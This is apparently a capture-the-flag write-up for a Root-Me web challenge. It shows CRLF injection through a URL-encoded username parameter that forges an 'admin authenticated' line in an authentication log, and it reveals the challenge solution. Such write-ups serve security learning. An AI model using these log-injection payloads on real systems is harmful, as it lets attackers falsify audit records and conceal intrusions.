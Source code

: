 The goal is to inject some false data in the log.

If you enter login:password in the form, you will see a new line appearing in the Authentication Log:

```
login failed to authenticate
```
And we see that we are redirected to http://challenge01.root-me.org/web-serveur/ch14/?username=login&password=password

Well, we can try to inject a line jump in the logs. For this, we need to now the equivalent of CRLF in hex code (to put it in the address). This %0d%0a. Well, let's go to http://challenge01.root-me.org/web-serveur/ch14/?username=login%0d%0anewline&password=password

We know see this two lines in the log:

```
login
newline failed to authenticate.

```
It worked !
Now, let's inject "admin authenticated". By following the same procedure, we can go to: [http://challenge01.root-me.org/web-serveur/ch14/?username=admin authenticated.%0D%0Anewline&password=password](http://challenge01.root-me.org/web-serveur/ch14/?username=admin authenticated.%0D%0Anewline&password=password)

At the bottom of the page, we can see:

```
Well done, you can validate challenge with this password : FLAG

```
